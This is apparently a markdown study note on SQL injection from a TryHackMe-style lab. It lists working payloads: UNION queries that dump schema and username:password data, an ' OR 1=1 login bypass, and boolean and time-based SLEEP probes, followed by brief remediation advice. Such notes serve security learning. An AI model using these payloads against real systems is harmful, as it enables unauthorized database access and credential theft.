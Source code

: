 
# SQL Injection

## What is SQL Injection?
SQL Injection (SQLi) is a vulnerability that allows an attacker to interfere with the queries an application makes to its database. It can be used to view data that the attacker is not normally able to retrieve.

## Example Scenario
**Original URL:**
`https://website.thm/blog?id=1`

**Original SQL Query:**
```sql
SELECT * from blog where id=1 and private=0 LIMIT 1;
```

**Malicious URL:**
`https://website.thm/blog?id=2;--`

**Injected SQL Query:**
```sql
SELECT * from blog where id=2;-- and private=0 LIMIT 1;
```

## Types of SQL Injection

### 1. In-Band SQL Injection
- **Error-Based**: Exploits database errors to gain information.
- **Union-Based**: Uses the `UNION` operator to extract data.

**Example Payloads:**
```sql
0 UNION SELECT 1,2,3
0 UNION SELECT 1,2,database()
0 UNION SELECT 1,2,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'sqli_one'
0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'
0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users
```

### 2. Blind SQL Injection

#### Authentication Bypass:
```sql
' OR 1=1;--
```

#### Boolean-Based:
```sql
admin123' UNION SELECT 1,2,3 where database() like 'sqli_three%';--
```

#### Discovering Table/Column Names:
```sql
admin123' UNION SELECT 1,2,3 FROM information_schema.tables WHERE table_schema = 'sqli_three' and table_name='users';--
admin123' UNION SELECT 1,2,3 FROM information_schema.COLUMNS WHERE TABLE_SCHEMA='sqli_three' and TABLE_NAME='users' and COLUMN_NAME like 'a%';
```

### 3. Time-Based SQL Injection

#### Discovering Column Count:
```sql
admin123' UNION SELECT SLEEP(5),2;--
```

#### Character Enumeration:
```sql
referrer=admin123' UNION SELECT SLEEP(5),2 where database() like 'u%';--
```

### 4. Out-of-Band SQL Injection
- Uses two different communication channels (e.g., HTTP/DNS requests).

## Remediation

- **Prepared Statements**: Use parameterized queries.
- **Input Validation**: Allow list or string replacement.
- **Escaping User Input**: Use escaping to treat special characters as literals.

